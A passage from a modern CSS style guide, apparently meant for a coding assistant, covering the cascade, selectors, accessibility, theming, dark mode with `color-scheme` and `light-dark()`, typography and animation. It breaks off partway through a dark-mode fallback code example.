   2. [Use `:is()` (or `:where()`) instead of CSS rule duplication for fallbacks](#use-is-or-where-instead-of-css-rule-duplication-for-fallbacks)
   3. [Avoid overmatching](#avoid-overmatching)
   4. [Nesting and scoping](#nesting-and-scoping)
4. [4. Interactivity](#4-interactivity)
   1. [Focus management](#focus-management)
   2. [Touch targets](#touch-targets)
5. [5. Design Tokens and Theming](#5-design-tokens-and-theming)
   1. [Dark mode](#dark-mode)
   2. [Forced Colors Mode](#forced-colors-mode)
   3. [Generating tints](#generating-tints)
   4. [Theming browser-generated UI](#theming-browser-generated-ui)
6. [6. Responsive design](#6-responsive-design)
   1. [Responsive Typography](#responsive-typography)
7. [7. Typography](#7-typography)
   1. [Text wrapping](#text-wrapping)
8. [8. Visual effects](#8-visual-effects)
   1. [Depth and texture](#depth-and-texture)
   2. [Shapes](#shapes)
   3. [Gradients and `color-mix()`](#gradients-and-color-mix)
   4. [Patterns](#patterns)
9. [9. Transitions \& animations](#9-transitions--animations)
   1. [Performance](#performance)
   2. [Accessibility](#accessibility)
10. [10. Generated content](#10-generated-content)


## 1. Foundations

Be allergic to knowledge duplication. Prefer variables over repetition, but whenever possible, prefer built-in conventions such as:
- `currentColor` instead of defining a variable and setting `color` to it
- The `inherit` keyword instead of defining a variable on the parent and using it on the same property across parent and child.
- `em` units instead of `font-size: var(--size)`
- `cqw`/`cqh` (or their logical versions — `cqi`/`cqb`) units instead of repeating box model values.
- Code duplication is not knowledge duplication. The goal is robustness and maintainability, not saving characters.
- Prefer **logical properties and values** over physical ones (e.g. `margin-inline-start` instead of `margin-left`) so that styles adapt to different writing modes and orientations. Even if the page author does not plan to localize, external translation tools often display translated text in context.
- Do not use logical properties indiscriminately — ask yourself "would I want this to flip in RTL?" — if the answer is no, use the physical property instead.
- Consider different viewing modes (dark mode, high contrast mode), different viewport sizes, and different input modes (touch, keyboard, pointer).

## 2. Inheritance and The Cascade

**Avoid** introducing BEM naming conventions to manage specificity.
Instead, use modern CSS features such as cascade layers and `:where()` to make cascade behavior predictable and follow author intent.

Use cascade layers (`@layer`) to define explicit priority zones (e.g., `reset`, `base`, `theme`, `components`, `utilities`), and declare their order upfront (e.g. `@layer reset, base, theme, components, utilities;`).
Within each layer, use `:where()` to make selectors only compete based on meaningful signals, not incidental filters (`:not()` edge cases, remote ancestors, etc.) or for one-off easily overridable defaults.

Use keywords like `inherit`, `initial`, `unset`, or `revert` instead of explicit values to improve maintainability and better express intent.
Examples:
- When specifying a transition on a child that should match the parent's `transition-*` properties, instead of repeating the transition properties on the child, use `transition: inherit` (reduce duplication, improve maintainability)
- Use `initial` to reset a property to its initial value instead of specifying the value explicitly (clearer expression of intent)

## 3. Selectors and scoping

Modern browser-native selectors reduce the need for preprocessors and complex state-tracking in JS.

### Prefer CSS selectors over JS for complex element targeting

- **DO** use `:has()` to style parents based on child state instead of managing classes in JS (e.g. `label:has(:checked)` instead of a manual `label.has-checked` class) For more information, see the guides at `child-state-based-styling` (via `npx -y modern-web-guidance@latest retrieve "child-state-based-styling"`) and `content-based-styling` (via `npx -y modern-web-guidance@latest retrieve "content-based-styling"`).
- **DO NOT** nest `:has()` or use pseudo-elements inside it (browser API limitation)
- Use `:nth-child(<An+B> of <selector>)` when you need to style every n-th element of a certain type. E.g. `details:nth-child(1 of [open])` will style the first open `<details>` element it finds, whereas `details[open]:first-child` would style only the first child if and only if it was open.

### Use `:is()` (or `:where()`) instead of CSS rule duplication for fallbacks

**DO NOT** duplicate CSS rules to provide fallbacks for pseudo-classes that may not be supported — use `:is()` or `:where()` instead and take advantage of their forgiving parsing rules.

```css
/* BAD: duplicate rules instead of using `:where()` */
[popover]:popover-open {
  /* styles for native popovers */
}
[popover].\:popover-open {
  /* same styles again, for polyfilled popovers */
}

/* GOOD */
[popover]:where(:popover-open, .\:popover-open) {
  /* same styles in one rule */
}
```

Do NOT use this for pseudo-elements, as they are not supported in `:is()` or `:where()`.

### Avoid overmatching

Write selectors in a way that expresses _intent_.

#### Use `:not()` instead of overrides to exclude irrelevant states/targets

When the intent is to exclude certain states or elements that are fundamentally irrelevant, use `:not()`.

For example, to apply bottom borders between list items, don't do this:

```css
.fancy-list li {
  border-bottom: 1px solid silver;
}

.fancy-list li:last-child {
  border-bottom: none;
}
```

This can unintentionally overwrite a desirable `border-bottom` set from another rule.
The actual intent was to only apply the bottom border to the non-last `li`s. The code above is a workaround that poorly expresses this intent. Instead, this expresses intent more clearly:

```css
.fancy-list li:not(:last-child) {
  border-bottom: 1px solid silver;
}
```

Similarly, don't do this:

```css
button:hover {
  background: var(--color-blue);
}

button:disabled {
  background: var(--color-neutral);
}
```

If we reorder the two rules, we will get a hover background on disabled buttons!
Instead, do this:

```css
button:hover:not(:disabled) {
  background: var(--color-blue);
}

button:disabled {
  background: var(--color-neutral);
}
```

This works regardless of reordering, as the first rule does not overmatch.

#### Prefer `@scope` over `:not()` for excluding (potentially deeply nested) subtrees

While `:not()` + descendant selectors can exclude subtrees, this works poorly for deeply nested structures.
For example, `.card :not(.content *)` will not work as expected for nested cards.
`@scope` fixes this as it takes hierarchical proximity into account:

```css
@scope (.card) to (.content) {
  /* styles for elements inside .card but not inside .content */
}
```

This will work as expected even for nested cards.

#### Overrides are fine for specialization

This is fine:

```css
button {
  background: var(--color-neutral);
}

button.primary {
  background: var(--color-blue);
}
```

Both rules express legitimate _intent_: buttons are generally neutral, but primary ones are blue.

#### No global resets

**DO NOT** use global resets (styles on `*`) as they cannot be overridden by web components or lower-priority cascade layers (without `!important`). Instead, apply reset styles to specific element types and/or conditions.

### Nesting and scoping

Use native CSS nesting to group related styles to the extent it improves maintainability and readability.

Prefer `@scope` over nesting when proximity should matter more than pure specificity. This is common in selectors that can be nested in any order, but the closest matching one (in element -> ancestor order) should win, e.g. theming classes.

For example this will not work as expected:
```css
.dark .invert { color-scheme: light }
.light .invert { color-scheme: dark }
```

If `.invert` is nested within _both_ `.dark` and `.light`, it will always resolve to dark mode as both rules have the same specificity.
Using `@scope` fixes this:

```css
@scope (.dark) {
  .invert { color-scheme: light }
}

@scope (.light) {
  .invert { color-scheme: dark }
}
```

## 4. Interactivity

### Focus management

- Use `:focus-visible` to define custom focus rings, not `:focus`.
- Do not remove the browser's default focus rings (via `outline: none`) without providing an alternative visible focus style.
- Prefer `outline` over other properties (e.g. `box-shadow`) for focus rings. If you must rely on `box-shadow` for focus rings, provide an `outline`-based fallback for High Contrast Mode using the `forced-colors` media query.
- Pair focus outlines with `outline-offset` to visually separate the ring from the element.

### Touch targets

- Interactive elements should be at least 24×24 CSS pixels (WCAG 2.5.8 AA). Enforce with `min-block-size` / `min-inline-size` or padding rather than `width` / `height`, so content can grow the target but not shrink it.
- Bump targets up on coarse pointers: `@media (pointer: coarse) { ... }`.
- **DON'T** use `touch-action: none` for custom gestures — it disables page scrolling through the element. Scope to the axis you actually need: `pan-y` for horizontal swipes (page still scrolls vertically), `pan-x` for vertical ones. Reserve `none` for elements where no native touch behavior makes sense (e.g. a drawing canvas).

## 5. Design Tokens and Theming

Use CSS custom properties on `:root` to define core design variables (colors, fonts, sizes, etc) used throughout the design, for visual consistency and to scale UI design across teams.
**DO NOT** specify nontrivial styling values inline. E.g. `background: transparent` or `padding: 0` is ok, but `background: #f06` or `padding: .3em` are not.
One exception is use cases where keeping code small and simple is far more important than long-term maintainability and evolution, such as testcases.

Typically these are organized in tiers, with each tier building upon the previous one. For example:
1. Tier 1: Literal design tokens (e.g. `--color-blue-10`, `--color-gray-90`, `--font-sans-serif`, `--size-xl` etc)
2. Tier 2: Semantic design tokens (e.g. `--color-accent`, `--color-neutral`, `--font-body`, `--font-heading` etc)
3. Tier 3: General UI design tokens (e.g. `--ui-border`, `--surface-bg-subtle` etc)
4. Tier 4: Component-specific design tokens (e.g. `--button-bg-primary-hover`, `--button-border-color-secondary` etc)

The smaller the scope of the use case, the fewer tiers it needs. E.g. a quick demo or toy app are fine with one tier. Do not overengineer.
Check for any existing conventions around naming and levels before inventing your own.

### Dark mode

- Use `color-scheme: light dark` on `:root` to enable dark mode support that automatically adapts to the system setting. You can also specify `color-scheme` on individual elements to force a different value for that subtree (`light`/`dark` or `light dark` for the system default)
- Use `light-dark()` to provide alternatives that automatically resolve based on the element's `color-scheme`.
Typically this happens in Tier 2 or Tier 3 tokens.
- IMPORTANT: When using `light-dark()` on an inherited `<color>` property, it will resolve to a specific color based on that element's `color-scheme` and inherit as that resolved color, not as a `light-dark()` value. It will NOT adapt to any descendant-specific `color-scheme` overrides. To keep `light-dark()` color tokens dynamic resolve them as late as possible by only passing them around as unregistered custom properties and avoid relying on inherited color values across `color-scheme` boundaries.

See `dark-mode` (via `npx -y modern-web-guidance@latest retrieve "dark-mode"`) for tips & best practices on supporting dark mode switching and `component-specific-light-dark-theme` (via `npx -y modern-web-guidance@latest retrieve "component-specific-light-dark-theme"`) for more on applying different `color-scheme` modes than the page-wide setting on certain elements.

### Forced Colors Mode

In Forced Colors Mode (High Contrast on Windows), the browser overrides author colors with system keywords and strips `background-image`, `box-shadow`, and `border-image`.

- Define system color fallbacks for color tokens using `@media (forced-colors: active)`.
- **DON'T** rely on `background-image`, `box-shadow`, or `border-image` to convey borders, separators, or state — they disappear in forced colors (and often in print too). If you must, ensure there's an alternative in forced colors mode, such as `outline` or `border` with system color keywords (`CanvasText`, `LinkText`, `ButtonText`, `Highlight`, `GrayText`, etc.).
- Use `forced-color-adjust: none` where color is essential information (syntax highlighter, color picker swatch). **DON'T** use `forced-color-adjust: none` just to preserve aesthetics.


### Generating tints

Before generating tints dynamically, check if you can use an existing, predefined, design token. This allows much more designer control and ensures consistency.

If you need to generate lighter or darker colors dynamically:
- **DO NOT** just adjust the lightness channel in `oklch`/`oklab` or `lch`/`lab`, e.g. `oklab(from var(--primary) 0.9 a b)`. While that is theoretically the correct way, browsers do not yet implement gamut mapping, so the resulting color is unpredictable.
- You can use `color-mix()` to mix with white or black (preferably in `oklab`). This keeps the color safely in gamut, but tends to over-desaturate colors and produce washed out tints and shades.
- You MAY combine lightness adjustment with any of the other methods (e.g. `color-mix(in oklab, oklch(from var(--primary) 0.9 c h), white 30%)`) for a balance between the two, but avoid going above 30% for the lightness adjustment.

### Theming browser-generated UI

Most browser-generated UI can be customized to some extent using CSS.
Even if it requires modern features, it degrades gracefully in older browsers, and thus often does not require a polyfill or fallback.

Before re-creating browser UI (form controls, scrollbars, selections, error messages, etc), first verify that:
1. the browser UI cannot be customized enough for your needs, even with modern CSS,
2. the desired customization is sufficiently critical to justify the tradeoffs of re-creating built-in UI — most notably losing accessible semantics, keyboard handling, IME, and AT integration that the native UI provides for free.

Example customizations that are possible:
- Use `::selection` to customize highlighted text colors.
- **DON'T** apply `user-select: none` to content text — breaks copy-paste, translation tools, and AT "read from here" gestures. Limit it to chrome (drag handles, toolbars, redundant button labels).
- Use `accent-color` to apply the page's accent color to any browser-generated UI.
- Use `color-scheme` to have browser UI adapt to light/dark mode.
- Use `scrollbar-color` to customize scrollbar colors and `scrollbar-width` to control scrollbar thickness — keep the thumb visibly distinct from the track (≥3:1), and don't set `scrollbar-width: none` on scrollable regions (use it only when scrolling is fully replaced by another affordance).
- Use `:user-invalid` / `:user-valid` for validity styling, **not** `:invalid` / `:valid` — they only match after the user has interacted with the field, avoiding the hostile default of flagging required-empty fields as errors on page load.
- Buttons and text fields (including `<textarea>`) can generally be styled as normal elements.
- Use `font-size` to scale and other textual properties to control typography

#### Styling textual fields (`<input>` & `<textarea>`)

For most styling purposes (e.g. colors, borders, backgrounds, typography, etc) treat these elements as normal text containers.

- Use `:placeholder-shown` and `::placeholder` to style input placeholders.
- Use `field-sizing: content` to make text fields size to content.
- For `<textarea>` elements, use `resize: vertical` to disable horizontal resizing or `resize: none` to disable all resizing.

#### Multiple choice controls (select, radios, checkboxes)

- To select one among many options presented in a dropdown: Use a `<select>` + `appearance: base-select` + `::picker(select)`. For more info see `branded-select-styling` (via `npx -y modern-web-guidance@latest retrieve "branded-select-styling"`)
- Selecting one or more among multiple options laid out inline in the page: Use a `<input type=checkbox>` or `<input type=radio>` inside a `<label>` for each option. Style via `label:has(:checked)`.
- Style checkboxes, radios and switches via `appearance: none` + generated content (`::before`/`::after`) or background images to draw the checked state.
<!-- Customizable select listbox version currently buggy + this has much better browser support -->

#### Non-textual `<input>`s (buttons, sliders, file inputs etc.)

- File inputs: Use `::file-selector-button` to style the button.
- Do not use `<input>` with a `type` of `button`, `submit` or `reset`. Use `<button>` instead and style it as a regular element.
- Sliders: Use `appearance: none` + thumb pseudo-elements (`::-webkit-slider-thumb`, `::-moz-range-thumb`, etc) and track pseudo-elements (`::-webkit-slider-runnable-track`, `::-moz-range-track`, etc) for more granular control.

## 6. Responsive design

- Use `@container` queries to create component-driven responsive layouts that adapt to their parent container's size rather than the viewport.
- Use dynamic viewport units (`dvh`, `dvw`) instead of `vh`/`vw` to prevent layout breakage when mobile browser UI elements (like address bars) appear or disappear.
- Use `aspect-ratio` for media elements (like `` and `<video>`) to reserve space during loading and prevent Cumulative Layout Shift (CLS).

### Responsive Typography

- **DO** combine viewport-relative and font-relative units in `clamp()` for font sizes that scale with the viewport size while ensuring they stay within a desired range. For example, `clamp(2rem, 1rem + 5vw, 4rem)`. Adjust the proportion of viewport-relative and font-relative units to control how quickly the font-size changes.
- **DON'T** use `vw` alone for font-size without `clamp()`, as it can scale text too small or too large on extreme screens.

## 7. Typography

- Use unitless numbers for `line-height` (e.g., `1.5`) to ensure relative scaling during font-size inheritance.
- Use `overflow-wrap: break-word` (or `anywhere`) to contain long URLs.
- **DON'T** use `px` for font-size. Prefer `rem` to honor the user's browser font-size preferences (root font size), or `em` for contextual sizing.

### Text wrapping

- Use `text-wrap: balance` for balanced headlines and headline-like content (e.g. `<th>`)
- Use `text-wrap: pretty` for long-form body text (paragraphs, blockquotes, etc.)
- Use `text-wrap: balance` or `text-wrap: pretty` deliberately, **DO NOT** apply it on `*` as it does have a performance cost.
- Avoid `text-wrap: balance` on elements with a visible box (backgrounds, borders, shadows, etc) as it does not change the container's width, it only affects how text wraps *within* that width. This can leave empty space at the end of the container, which is usually undesirable.

## 8. Visual effects

### Depth and texture

- Layer multiple shadows for realistic soft depth effects.
- Use `filter: drop-shadow()` instead of `box-shadow` for non-rectangular shapes or transparent PNGs.
- Use `mix-blend-mode` and `background-blend-mode` for lighting overlays (limit scope with `isolation: isolate`)

```css
.hero {
  background-image: url('texture.png'), linear-gradient(to bottom, #fff, #eee);
  background-blend-mode: soft-light;
}
```

### Shapes

- Use `corner-shape: squircle` for more aesthetically pleasing curves as a progressive enhancement over regular rounded corners.
- Use elliptical `border-radius` (e.g., `10px / 20px`) for proportional curves without extra elements.

### Gradients and `color-mix()`

Use `in oklch` or `in oklab` to explicitly specify the interpolation color space for gradients or `color-mix()`.
- `in oklch` preserves chroma better, but can more easily get out of device gamut, especially for bigger differences between colors
- `in oklab` stays in gamut more easily (assuming in-gamut endpoints) but can create washed out desaturated colors in the middle, especially when interpolating between opposite hues.
- *DON'T* use `in srgb` unless you have a specific reason to do so (e.g. you are building a color picker that needs to interpolate in srgb).

#### Fallback

Some pre-2024 browsers do not support gradient color interpolation space.
To support these browsers, use the token only when its usage is safe by defining a variable:

```css
:root {
  --in-oklab: ;
  --in-oklch: ;
}

@supports (linear-gradient(in oklab, white, black)) {
  :root {
    --in-oklab: in oklab;
    --in-oklch: in oklch;
  }
}
```

Then use like:

```css
.card {
  background: linear-gradient(to bottom var(--in-oklab), var(--accent-color), var(--darker));
}
```

- **Important:** If you use this technique, make sure there is always a non-empty gradient preamble without it, otherwise it will be a syntax error in older browsers.
- You do NOT need this for `color-mix()`. If a browser supports `color-mix()`, it also supports its `in <color-space>` argument.

### Patterns

Many patterns can be created via CSS gradients + hard stops, and these can be more flexible and performant than SVGs or external images as they can have access to CSS variables and lengths from the surrounding context.
You don't need to repeat the position twice — just use `0` or `0%` and gradient fixup will auto-adjust it.

Examples below.

Vertical stripes of `1em` width each:

```css
background: linear-gradient(to right, var(--color-1) 50%, var(--color-2) 0) 0 / 2em;
```

Diagonal stripes of `1em` width each:

```css
background: repeating-linear-gradient(-45deg, var(--color-1) 0 1em, var(--color-2) 0 2em);
```

Checkerboard pattern with `1em` squares:

```css
background: repeating-conic-gradient(var(--color-1) 0 25%, var(--color-2) 0 50%) 0 / 2em 2em;
```

Polka dot with `.5em` radius dots spaced `2em` apart (horizontally/vertically — multiply by `sqrt(2)` for diagonal distance):

```css
--distance: 2em;
--radius: .5em;
--polka: radial-gradient(circle, var(--color-1) var(--radius), transparent calc(var(--radius) + 1px));
background: var(--polka) 0 0, var(--polka) var(--distance) var(--distance) var(--color-2);
background-size: calc(var(--distance) * 2) calc(var(--distance) * 2);
```

Simple pie chart:

```css
.pie {
  --p: 80%;
  width: 60px;
  aspect-ratio: 1;
  border-radius: 50%;
  background: conic-gradient(var(--color-1) var(--p), transparent 0%) var(--color-2);
}
```

**Important:** When using gradients to render charts, ensure there is a textual fallback for screen readers. MANDATORY: You MUST provide a semantic data table as an accessible alternative, as detailed in `accessibility` (via `npx -y modern-web-guidance@latest retrieve "accessibility"`) under the alternate text and media guidelines.

## 9. Transitions & animations

- Use `clip-path` and `mask-image` for custom geometric reveals and smooth fade-outs.
- Use **Scroll-Driven Animations** (`animation-timeline: scroll()`) for non-essential scroll-bound effects instead of JS listeners.
- Use **View Transitions** to animate between complex layout states seamlessly.

### Performance

Rendering performance is critical for smooth user experiences, especially in heavy DOM trees.

- Prefer to animate `opacity` and `transform` (including individual transform properties, e.g. `translate` instead of `left/right/top/bottom`) to ensure animations stay on the compositor thread.
- Use `transition-behavior: allow-discrete` + `@starting-style` to animate layout properties like `display` or `<dialog>` state natively.
- Always pair `content-visibility` with `contain-intrinsic-size` to prevent scrollbar jumps (CLS).
- When setting `contain-intrinsic-size` use the `auto` keyword and a value that’s derived from what is known about the contents (i.e. text size, spacing, size of graphics, character count). Preferably use units such as `rem`, `lh`, `cap`, or `ch` that match values used for the elements within the contents rather than `px`. If the content for items in a group is not consistently sized, then use an average size.
- Use `contain: layout style paint` to isolate component rendering updates.

#### Code Example: Render Optimization

```css
.large-section {
  content-visibility: auto;
  contain-intrinsic-block-size: auto 800px;
}

.row {
  --row-gap: .4rem;
  --title-height: 1lh;
  --description-height: 0.85lh;

  display: grid;
  row-gap: var(--row-gap);
  content-visibility: auto;
  /* The sum of the title height, row gap, and description height should be the size of the contents when skipped for rendering. */
  contain-intrinsic-block-size: auto calc(var(--title-height) + var(--row-gap) + var(--description-height));
}

.popover-reveal {
  /* Allow discrete animations for display transitions */
  transition: display 0.2s allow-discrete;
}
```

### Accessibility

Use `prefers-reduced-motion` media queries to turn off heavy motion for users who prefer it.

**DO NOT** globally apply `animation-duration: 0.01ms;` globally as it can cause certain animations to become _more_ jarring.
Either apply reduced motion versions on a case by case basis, or use a custom property like:

```css
@property --animation-reduced {
  syntax: "*";
  inherits: false;
  initial-value: none;
}

@media (prefers-reduced-motion: reduce) {
  * {
    animation: var(--animation-reduced) !important;
  }
}
```

Then, reduced motion versions can be kept together with the original animations:

```css
progress:not([value]) {
  animation: slide 1s infinite linear;
  --animation-reduced: slide 20s infinite linear;
}
```

## 10. Generated content

- **DON'T** use `content` to convey meaningful text (labels, state, instructions) — keep that in the DOM (WCAG F87). The alt text argument is harm reduction for cases where decoration accidentally carries meaning, not a license.
- Use the alternative text argument of `content` to provide alt text for screen readers. E.g. `content: url(cloud.svg) / "Save";`
- Use `content: "text" / "";` to prevent purely decorative text from being announced to screen readers.
- **DON'T** use an empty alt text argument for images — they're already presentational by default. E.g. this is wrong: `content: url(cloud.svg) / "";`.
- **DON'T** use the alt text argument to describe emojis unless the description differs from the official emoji name. E.g. don't do `content: "🎉" / "celebration";`, but `content: "🎉" / "Yay!";` is fine.

**ONLY** use the alt text argument when the text is different than the primary value and is not already present in the DOM. I.e. this is wrong:

HTML:
```html
<button class="save">Save</button>
```

CSS:
```css
button.save::before {
  content: url(cloud.svg) / "Save";
}
```

A screen reader would read it out as "Save save".


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_DARK-MODE.MD

# Dark mode
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The `color-scheme` property indicates which color schemes (such as light or dark) your page supports. This informs the browser that it can automatically theme native UI elements—like scrollbars, form controls, and the default canvas background—to match your site's design and help minimize white flashes during initial loading.

## Implementation

### 1. Declare supported schemes in HTML

MANDATORY: To help prevent a "flash of un-themed content" (FOUC), place a `<meta>` tag in your `<head>` to ensure the browser knows which themes you support before it even starts rendering. While this `<meta>` tag helps to avoid FOUC by setting the initial canvas color early, it may not completely eliminate flashes in all browsers or loading conditions.

```html
<!-- MANDATORY: Declare support for both light and dark themes -->
<meta name="color-scheme" content="light dark">
```

### 2. Apply page-wide color scheme to CSS :root or html

MANDATORY: Apply the `color-scheme` property to the `html` element or the `:root` pseudo-class. Browsers specifically look to the root element to determine the theme for the entire viewport—including the root scrollbars and the initial "canvas" background. If applied only to the `body`, these global UI surfaces may remain in light mode because the `body` does not control the window's rendering context.

```css
/* MANDATORY: Apply color-scheme to :root or html for viewport-wide theming */
:root {
  /* MANDATORY: Automatically adapt native UI to user system preferences */
  color-scheme: light dark;
}
```

### 3. Define light and dark color tokens

You can use the `light-dark()` function to define color tokens that automatically adapt to different `color-scheme` values.

It is recommended that you also keep the raw color values in separate custom properties, which makes it easier to combine them in different ways (and makes fallback behavior easier, if needed).

For more control over the colors of built-in UI such as `accent-color` or `scrollbar-color`, authors **can optionally** add their own dynamic colors with use of custom properties and/or the `light-dark()` function. This function automatically picks the correct color based on the computed `color-scheme` of the element and eliminates the need for redundant media queries, but is not required for a basic implementation.

```css
:root {
  --color-brand-light: oklch(45% 0.23 270);
  --color-brand-dark: oklch(85% 0.15 210);
  --color-brand-text-light: white;
  --color-brand-text-dark: oklch(40% 0.23 270);

  --color-brand: light-dark(var(--color-brand-light), var(--color-brand-dark));
  --color-brand-text: light-dark(var(--color-brand-text-light), var(--color-brand-text-dark));

  /* MANDATORY: Automatically adapt native UI to user system preferences */
  color-scheme: light dark;
}

button.primary {
  /* These automatically adapt to color scheme */
  background-color: var(--color-brand);
  color: var(--color-brand-text);
}
```

OPTIONAL: A number of system colors are available, which also automatically adapt to the used color scheme (and other color modes, e.g. forced colors), such as `canvas`, `canvastext`, `accentcolor` (check support) , `buttonborder` etc. These are typically too limited to be useful, beyond very specific cases where you need to exactly match certain default browser UI or as fallbacks/defaults.

#### OPTIONAL: Tailor color pairs to context

Even when overriding the system default, it can be useful to use the `prefers-color-scheme` media query to define **different** color pairs that take into account the colors of the browser and OS chrome around the page (or of the surrounding page, when the page is used as an iframe).

For example, use a slightly dimmer light theme when the system setting is `dark`, or a more contrasting dark theme when the system setting is `light`, so the page is not visually overpowered by the surrounding UI.


## Fine-grained browser UI customization

Setting `color-scheme` already adapts browser UI to the used color scheme, but this will use OS defaults and/or system colors that may not perfectly align with the website design.
Modern browsers expose several fine-grained customization hooks for these.
Do not reimplement native controls simply to customize their appearance without exhausting the customization hooks modern browsers provide.

### Setting the accent color

Some browser UI (e.g. checked checkboxes or sliders) uses an accent color.
This resolves to the OS setting by default, but you can use the `accent-color` property to set it to a color that better aligns with the page, such as the page's brand color.

```css
html {
  accent-color: light-dark(var(--color-accent-light), var(--color-accent-dark));
}
```

### Issues to be aware of when using accent-color

- When placing visual elements over the accent color (e.g. a checkbox checkmark), Chrome and Safari will automatically select a contrasting color, whereas Safari will modify the accent color, and may not maintain adequate contrast.

### Scrollbar colors

You can use `scrollbar-color` together with `light-dark()` to set custom scrollbar colors that adapt to the color scheme used.

```css
:root {
  --color-scrollbar-track: light-dark(#eee, #222);
  --color-scrollbar-thumb: light-dark(#999, #666);
  scrollbar-color: var(--color-scrollbar-thumb) var(--color-scrollbar-track);
}
```

### Issues to be aware of when using scrollbar-color

- Do NOT animate or transition `scrollbar-color`. A [WebKit bug](https://bugs.webkit.org/show_bug.cgi?id=311752) causes the scrollbar to flicker every time `scrollbar-color` changes.
- On macOS, `scrollbar-color` (standard) and `::-webkit-scrollbar` (legacy) properties are ignored by default because macOS uses native "overlay" scrollbars. You MUST pair custom colors with `scrollbar-width` (e.g., `thin` or `auto`) to force macOS to render them.
- Even with `scrollbar-width` applied, macOS overlay scrollbars render the track (gutter) as transparent by default. If the design requires a visible track background color on MacOS, you MUST apply `scrollbar-gutter: stable;` to the scrollable container, but note that it only appears after the user hovers over the scrollbar.
- Even with `scrollbar-gutter: stable` the track may be transparent on MacOS. The thumb should not depend on the track color to be visible.

### Further customization

Most browser UI exposes pseudo-elements to fully customize its appearance, such as:
- `::placeholder`
- `::spelling-error`
- `::grammar-error`
- `::selection`
- `::search-text`
- `::target-text`
- `::file-selector-button`

You can use `light-dark()` colors on any of these to apply colors that adapt to the used color scheme.

## OPTIONAL: Implementing a color-scheme toggle

**DO NOT** set `color-scheme: light` or `color-scheme: dark` on the root element by default.
The default color-scheme MUST be the user's system preference, which happens automatically when setting `color-scheme` to `light dark`.

For website-specific customization, a manual toggle could be provided to allow users to choose between light, dark, or system-default modes.

If a user-facing toggle to override it is desired, it should:
- Update the `<meta name="color-scheme">` element to reflect the chosen theme (`light dark` for system default, `light` for light, and `dark` for dark).
- If branching is desired for non-color values, set a class on `<html>` to match the theme preference and use descendant selectors. While `:root:has(> head > meta[name="color-scheme"][content="dark"])` would technically work, it is slower and confers no benefit, since we are already using JS to update the `<meta>` element.
- Persist user choice in `localStorage`.
- **IMPORTANT**: The CSS should be written to default to the system preference, with overrides for user-specified color-schemes. That way, if JS fails to execute, the site still defaults to the system color-scheme.
- The system-level OS theme can change at any time. If you are using JS to read `matchMedia("(prefers-color-scheme: dark)").matches`, you MUST also use `addEventListener("change", fn)` to react to changes. CSS automatically adapts to changes.
- **IMPORTANT**: To avoid a Flash of Unstyled Content (FOUC) for users who have pinned a different color scheme than their system default, use an inline script (NOT `type=module`, NOT `defer`) to set it when the page loads:

```html
<meta name="color-scheme" content="light dark">
<script>
{
  const colorScheme = localStorage.getItem("color-scheme");
  if (colorScheme) {
    document.querySelector('meta[name="color-scheme"]').content = colorScheme;
  }
}
</script>
```

### UX considerations

Use a two-state control:
1. System setting.
2. The opposite (e.g. light when the system setting is dark, and dark when the system setting is light). Selecting this setting must pin that exact color scheme, not a dynamically computed "opposite of system setting" value. Example scenario:
    1. The OS is set to light mode.
    2. The user selects the opposite setting for this website (dark).
    3. The user changes their system setting to dark.
    4. The website should remain dark.

**DON'T** expose all three states (system, light, dark). While the rationale is plausible — "Follow system (currently dark)" is a distinct user intent from "Always dark" — it provides suboptimal UX:
- Users cannot meaningfully express intent for problems they don't currently have. A manual toggle is a temporary comfort adjustment ("it's too bright right now"), not a long-term preference ("make sure this never changes").
- Two of the three options always produce the same visual result, violating the principle of feedback.

## Component-specific overrides

You can override the global theme for specific elements by setting `color-scheme` on them.
This is useful for "dark mode" sections within a light-themed site, such as code blocks or media players.

```css
pre, code {
  /* Forces element and its children to use dark themed UI */
  color-scheme: dark;
}
```

For more information about component-specific overrides and their gotchas, see `component-specific-light-dark-theme` (via `npx -y modern-web-guidance@latest retrieve "component-specific-light-dark-theme"`).

## Known issues to be aware of

### Issues to be aware of when using color-scheme

- Chrome and Firefox respect `color-scheme` for iframes: they render embedded pages in the correct color scheme and adjust the embedded page's `prefers-color-scheme` media query to reflect the embedding context's `color-scheme`. Safari does not, and resolves `prefers-color-scheme` to the system setting even inside iframes.
  - **If you control both parent and iframe:** pass the parent's color scheme to the iframe explicitly — via a URL parameter (`?theme=dark`) at iframe construction time, or via `postMessage()` (which also lets you react to runtime changes). In the iframe, set a class on `<html>` (and/or `color-scheme` on `:root`) from that signal instead of relying on `prefers-color-scheme`.
  - **If you only control the embedded page:** there is no reliable way to detect the embedding context's `color-scheme` from inside the iframe in Safari. Expose an explicit theme parameter on your embed API (e.g. a query string or `postMessage` protocol) and document it for embedders.

## Fallback strategies

### Fallbacks & browser support for color-scheme

Baseline status for color-scheme: Widely available. It's been Baseline since 2022-02-03.
Supported by: Chrome 98 (Feb 2022), Edge 98 (Feb 2022), Firefox 96 (Jan 2022), and Safari 13 (Sep 2019).

The `color-scheme` property is **progressive enhancement**.
Browsers that do not support it will ignore this property and use their default light-mode UI.

To adapt to the user's preferences in older browsers, use `prefers-color-scheme` media queries to provide different colors when dark mode is preferred.

- DO use the media query to switch custom properties on `:root` or `html`
- Avoid using the media query on individual components unless the component requires a very specific type of dark mode customization beyond colors.

```css
:root {
  /* Define brand colors for each mode */
  --color-brand-light: #0056b3;
  --color-brand-dark: #00e5ff;
  --color-brand: var(--color-brand-light);

  /* MANDATORY: Fallback for browsers without light-dark support */
  @media (prefers-color-scheme: dark) {
    --color-brand: var(--color-brand-dark);
  }

  /* Ignored in older browsers */
  color-scheme: light dark;
}

button.primary {
	background-color: var(--color-brand);
}
```

### Fallbacks & browser support for light-dark()

Baseline status for light-dark(): Newly available. It's been Baseline since 2024-05-13.
Supported by: Chrome 123 (Mar 2024), Edge 123 (Mar 2024), Firefox 120 (Nov 2023), and Safari 17.5 (May 2024).

For browsers that support `color-scheme` but not yet `light-dark()`, light and dark versions of colors should first be defined as custom properties, and the `prefers-color-scheme` media query should be used to set colors for the respective mode like in the example below:

```css
:root {
  /* Define browser UI accent color for each mode */
  --brand-accent-light: #0056b3;
  --brand-accent-dark: #00e5ff;
  --accent-color: var(--brand-accent-light);

  /* MANDATORY: Fallback for browsers without light-dark support */
  @media (prefers-color-scheme: dark) {
    --accent-color: var(--brand-accent-dark);
  }

  /* OPTIONAL: use light-dark() for more control of built-in UI colors */
